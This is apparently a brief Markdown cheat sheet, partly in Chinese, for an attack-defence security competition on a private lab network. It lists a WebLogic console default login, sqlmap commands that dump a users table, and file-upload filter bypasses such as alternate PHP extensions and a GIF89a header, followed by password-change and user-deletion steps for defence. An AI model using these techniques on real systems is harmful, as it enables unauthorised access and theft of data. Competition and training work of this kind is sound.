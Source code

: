 3. Weblogic weak password

http://192.168.20.253:7001/console
http://192.168.40.200:7001/console

weblogic
Oracle@123


## sql

burp抓包

``` bash
sqlmap -r sql.txt --dbs
sqlmap -r sql.txt -D security --tables
sqlmap -r sql.txt -D security -T users --dump
```

## upload

``` bash
.PHP
.php3 .phtml
.php.
. php
.pphphp

content/type:image/png

GIF89a
```

# defence

## 改密码

``` bash
sudo passwd chenyf
sudo passwd root
```

http://192.168.30.200/?/admin/


## 删用户

``` bash
cat /etc/passwd 看最后一行
deluser [user]
```

控制面板 - 用户账户 - 删除用户账户
